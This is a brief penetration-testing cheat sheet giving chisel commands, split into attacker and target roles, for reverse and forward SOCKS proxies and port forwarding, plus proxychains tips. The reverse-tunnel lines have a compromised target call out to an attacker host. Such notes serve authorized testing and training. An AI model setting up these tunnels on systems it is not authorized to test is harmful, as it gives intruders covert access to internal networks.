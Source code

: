 ### Chisel client/server --help

### Author: https://github.com/jpillora/chisel/releases

### Reverse SOCKS proxy

#### Attacker: ./chisel server -p LISTENING_PORT --reverse &

#### Target: ./chisel client ATTACK_IP:LISTEN_PORT R:SOCKS &

### Forward SOCKS proxy

#### Target: ./chisel server -p LISTEN_PORT --socks5

#### Attacker: ./chisel client TARGET_IP:LISTEN_PORT PROXY_PORT:socks

## TIP:

#### Set the port in the proxychains file. (SOCKS5)

#### If you use forward proxy, set the port to whichever one you opened.

### Local Port Forward

#### Target: ./chisel server -p LISTEN_PORT

#### Attacker: ./chisel client LISTEN_IP:LISTEN_PORT LOCAL_PORT:TARGET_IP:TARGET_PORT

### Remote Port Forward

#### Atttacker: ./chisel server -p LISTEN_PORT --reverse &

#### Target: ./chisel client ATTACKING_IP:LISTEN_PORT R:LOCAL_PORT:TARGET_IP:TARGET_PORT &

## TIP:

#### Also use jobs then kill %num for chisel background processes too.

#### And use chisel with proxychains on your attacking machine
